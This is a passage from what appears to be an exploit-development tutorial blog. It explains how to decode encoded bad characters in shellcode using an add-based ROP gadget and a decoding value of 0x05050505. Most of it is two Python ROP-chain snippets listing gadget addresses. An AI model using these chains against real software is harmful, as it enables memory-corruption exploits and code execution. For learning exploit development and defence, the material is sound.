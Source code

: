 
### Positive value & Verify decoding

Secondly, We need to get the positive value for `0xfb` as we used it for encoding, Our decoding gadget is `add` gadget, So we need to get the positive value for `0xfb`:

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/bdab2e2a-f901-4831-9135-e72f4f59be92)


Here the positive value for `0xfb` is `0x05`, So we will be using `0x05050505` as the value to be poped into `eax` (As `eax` is 32-bit we used `05050505` to cover all bits) While we are decoding. Before that, Let'ss verify that the value would wwork and decode the encoded bad chars to the actual original ones:

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/cb65576c-7413-4505-9662-64a3d69731a7)


We can see clearly, when we added `0x05` to each encoded bad char, It successfully gives us the original bad char and decoded it successsfully.

Our full gadget will be as the following for decoding the badchars,But The first decode will have 1 differant gadget to make the esi point to the last badchar:
```python
# Decode bad character at index 193
ROPDecoder = pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", negative_offset_value_to_shellcode)
ROPDecoder += pack("<L", 0x50533bf4) # sub eax, ecx ; ret  ; add the offset to eax
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", decoding_value)
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bbad character
```

Then as now we are pointing with-in the shellcode, We can jump backward for all the badchars using the following gadget:

```python
# Decode bad character at index 181
ROPDecoder = pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", negative_offset_value_to_the_previous_badchar)
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", decoding_value)
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bbad character
```
